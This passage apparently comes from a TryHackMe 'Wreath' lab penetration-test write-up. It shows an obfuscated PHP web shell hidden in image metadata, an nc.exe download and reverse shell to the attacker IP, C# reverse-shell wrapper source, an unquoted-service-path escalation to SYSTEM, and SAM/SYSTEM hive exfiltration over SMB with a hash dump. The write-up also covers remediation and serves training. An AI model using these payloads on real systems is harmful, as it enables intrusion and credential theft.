kali@kali:~/thm/wreath$ exiftool -Comment="<?php \$v0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$v0)){echo base64_decode('PHByZT4=').shell_exec(\$v0).base64_decode('PC9wcmU+');}die();?>" shell-Neozer0.jpeg.php 
    1 image files updated
kali@kali:~/thm/wreath$ exiftool shell-Neozer0.jpeg.php
ExifTool Version Number         : 12.16
File Name                       : shell-Neozer0.jpeg.php
Directory                       : .
File Size                       : 46 KiB
File Modification Date/Time     : 2021:04:24 08:24:07-04:00
File Access Date/Time           : 2021:04:24 08:24:07-04:00

...

Comment                         : <?php $v0=$_GET[base64_decode('d3JlYXRo')];if(isset($v0)){echo base64_decode('PHByZT4=').shell_exec($v0).base64_decode('PC9wcmU+');}die();?>

...
```

Visiting the page we get

![upload success](phpshell.png)

We can execute command with param `wreath` by visiting: `10.200.85.100/resources/uploads/shell-Neozer0.jpeg.php?wreath=systeminfo`

![run systeminfo](phpshellsysinfo.png)

_____________________________________

### Reverse shell

We upload the `nc.exe` to the `c:\windows\temp\` directory

1. Start http server and 
```
kali@kali:~/code/nc.exe$ sudo python3 -m http.server 80
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.200.85.100 - - [24/Apr/2021 08:50:59] "GET /nc.exe HTTP/1.1" 200 -

```

2. Run curl command on webshell `curl http://10.50.86.79/nc64.exe -o c:\\windows\\temp\\nc-Neozer0.exe`

![curl nc](curlnc.png)

3. Set up netcat listener
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...

```

4. Run command to start reverse shell - `10.200.85.100/resources/uploads/shell-Neozer0.jpeg.php?wreath=powershell.exe%20c:\\windows\\temp\\nc-Neozer0.exe%2010.50.86.79%2049999%20-e%20cmd.exe`

![nc reverse shell](ncreverseshell.png)

5. Back on netcat listener we get a shell
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.100] 50050
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\resources\uploads>

```

_____________________________________

### Privilege enumeration

Check current privileges
```
C:\xampp\htdocs\resources\uploads>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

```
C:\xampp\htdocs\resources\uploads>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288 
```

Check services

```
C:\xampp\htdocs\resources\uploads>wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows"
DisplayName                                                                         Name                                      PathName                                                                                    StartMode  
Amazon SSM Agent                                                                    AmazonSSMAgent                                                 

...

SystemExplorerHelpService                 C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe  Auto       
Windows Defender Antivirus Network Inspection Service                               WdNisSvc                                  

...  
```

Check the path of the binary of `SystemExplorerHelpService`

```
C:\xampp\htdocs\resources\uploads>sc qc SystemExplorerHelpService
sc qc SystemExplorerHelpService
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: SystemExplorerHelpService
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 0   IGNORE
        BINARY_PATH_NAME   : C:\Program Files (x86)\System Explorer\System Explorer\service\SystemExplorerService64.exe
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : System Explorer Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

We also have access to add files in the path!

```
C:\xampp\htdocs\resources\uploads>powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"
powershell "get-acl -Path 'C:\Program Files (x86)\System Explorer' | format-list"


Path   : Microsoft.PowerShell.Core\FileSystem::C:\Program Files (x86)\System Explorer
Owner  : BUILTIN\Administrators
Group  : WREATH-PC\None
Access : BUILTIN\Users Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  FullControl
         NT SERVICE\TrustedInstaller Allow  268435456
         NT AUTHORITY\SYSTEM Allow  FullControl

...
```

Two findings:

- We have privilege that could be used to escalate to system permissions. However, we need to obfuscate the exploit to get past Defender; or
- We have unquoted service path vulnerability for a service running as the system account - `SystemExplorerHelpService`

_____________________________________

### Privilege escalation

Create exploit

```cs
using System;
using System.Diagnostics;

namespace Wrapper{
    class Program{
        static void Main(){
                Process proc = new Process();
                ProcessStartInfo procInfo = new ProcessStartInfo("c:\\windows\\temp\\nc-Neozer0.exe", "10.50.86.79 49999 -e cmd.exe");
                procInfo.CreateNoWindow = true;
                proc.StartInfo = procInfo;
                proc.Start();
        }
    }
}
```

Now we compile the program with Mono `mcs` compiler

```
kali@kali:~/thm/wreath$ mcs Wrapper.cs 
kali@kali:~/thm/wreath$ ls Wrapper*
Wrapper.cs  Wrapper.exe
kali@kali:~/thm/wreath$ file Wrapper.exe 
Wrapper.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```

We upload executable using Impacket

Start smb server on our IP serving a share called `share` in current directory. This is also using SMBv2 for relatively up to date targets
```
kali@kali:~/thm/wreath$ sudo python3 ~/code/impacket/examples/smbserver.py share . -smb2support -username user -password hellotheretaco
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0

...
```

In the reverse shell we run
- `net use \\10.50.86.79\share /USER:user hellotheretaco`

```
C:\xampp\htdocs\resources\uploads>net use \\10.50.86.79\share /USER:user hellotheretaco
net use \\10.50.86.79\share /USER:user hellotheretaco
The command completed successfully.


C:\xampp\htdocs\resources\uploads>copy \\10.50.86.79\share\Wrapper.exe %TEMP%\wrapper-Neozer0.exe
copy \\10.50.86.79\share\Wrapper.exe %TEMP%\wrapper-Neozer0.exe
        1 file(s) copied.
```

We now start another listener and execute to see if exploit works
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
```

```
C:\xampp\htdocs\resources\uploads>"%TEMP%\wrapper-Neozer0.exe"
"%TEMP%\wrapper-Neozer0.exe"
```

We get a reverse shell
```
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.100] 50512
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\resources\uploads>
```

Copy over file to `Program.exe`

`copy %TEMP%\wrapper-Neozer0.exe "C:\Program Files (x86)\System Explorer\System.exe"`

```
C:\xampp\htdocs\resources\uploads>copy %TEMP%\wrapper-Neozer0.exe "C:\Program Files (x86)\System Explorer\System.exe"
copy %TEMP%\wrapper-Neozer0.exe "C:\Program Files (x86)\System Explorer\System.exe"
        1 file(s) copied.

C:\xampp\htdocs\resources\uploads>dir "C:\Program Files (x86)\System Explorer\"
dir "C:\Program Files (x86)\System Explorer\"
 Volume in drive C has no label.
 Volume Serial Number is A041-2802

 Directory of C:\Program Files (x86)\System Explorer

25/04/2021  08:58    <DIR>          .
25/04/2021  08:58    <DIR>          ..
22/12/2020  00:55    <DIR>          System Explorer
25/04/2021  08:00             3,584 System.exe
               1 File(s)          3,584 bytes
               3 Dir(s)   6,967,848,960 bytes free
```

Restart service

Stop - `sc stop SystemExplorerHelpService`

Start - `sc start SystemExplorerHelpService`

```
C:\xampp\htdocs\resources\uploads>sc stop SystemExplorerHelpService
sc stop SystemExplorerHelpService

SERVICE_NAME: SystemExplorerHelpService 
        TYPE               : 20  WIN32_SHARE_PROCESS  
        STATE              : 3  STOP_PENDING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x1388

C:\xampp\htdocs\resources\uploads>sc start SystemExplorerHelpService
sc start SystemExplorerHelpService
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

And we check on our listener with `root`
``` 
kali@kali:~/thm/wreath$ sudo nc -lvnp 49999
listening on [any] 49999 ...
connect to [10.50.86.79] from (UNKNOWN) [10.200.85.100] 50544
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

_____________________________________

### Exfiltration & Post Exploitation

Exfiltrate hashes

```

C:\Windows\system32>net use \\10.50.86.79\share /USER:user hellotheretaco
net use \\10.50.86.79\share /USER:user hellotheretaco
The command completed successfully.


C:\Windows\system32>reg.exe save HKLM\SAM \\10.50.86.79\share\sam.bak
reg.exe save HKLM\SAM \\10.50.86.79\share\sam.bak
The operation completed successfully.

C:\Windows\system32>reg.exe save HKLM\SYSTEM \\10.50.86.79\share\system.bak 
reg.exe save HKLM\SYSTEM \\10.50.86.79\share\system.bak
The operation completed successfully.

```

Use `Impacket`
```
kali@kali:~/thm/wreath$ ls sam* system*
sam.bak  system.bak

kali@kali:~/thm/wreath$ python3 ~/code/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL
Impacket v0.9.23.dev1+20210422.174300.cb6d43a6 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0xfce6f31c003e4157e8cb1bc59f4720e6
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:********************************:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:********************************:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:********************************:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:********************************:::
Thomas:1000:aad3b435b51404eeaad3b435b51404ee:********************************:::
[*] Cleaning up... 
```

_____________________________________

### Clean up

- delete c:\windows\temp\chisel-Neozer0.exe
- delete c:\windows\temp\nc-Neozer0.exe
- delete resources/uploads/shell-Neozer0.jpeg.php
- stop sharing service `net use \\ATTACKER_IP\share /del` on the attacking machine
- Remove our crafted program - `del "C:\Program Files (x86)\System Explorer\System.exe"`
- Restart the service - `sc start SystemExplorerHelpService`

</details>

### Remediation

- Fix file extension filter bypass that allows `.jpeg.php` files to be uploaded
- Keep using allowlist which are better than blocklist
- Remove excess permission on the `C:\Program Files (x86)\System Explorer\` folder
- Consider reviewing current access and permissions
- Apply logging and monitoring on any access permissions changes or elevated access events

_____________________________________

## Conclusion

A combination of vulnerabilities allowed us to pivot through multiple entities and obtaining the highest access. The main vulnerabilities of note are:

- Webserver (`.200`) vulnerability
- Gitserver (`.150`) vulnerability 
- Personal PC (`.100`) upload filters vulnerability

It is recommended to:
- Upgrade Webmin and Gitstack to the latest version as detailed in the remediation part of the report
- Improve extensions type filter bypass within Thomas' webpage

_____________________________________

## References

CVE-2019-15107: https://www.cvedetails.com/cve/CVE-2019-15107/

Webserver exploit: https://github.com/MuirlandOracle/CVE-2019-15107

Gitstack: https://www.exploit-db.com/exploits/43777

PHP obfuscator: https://www.gaijin.at/en/tools/php-obfuscator
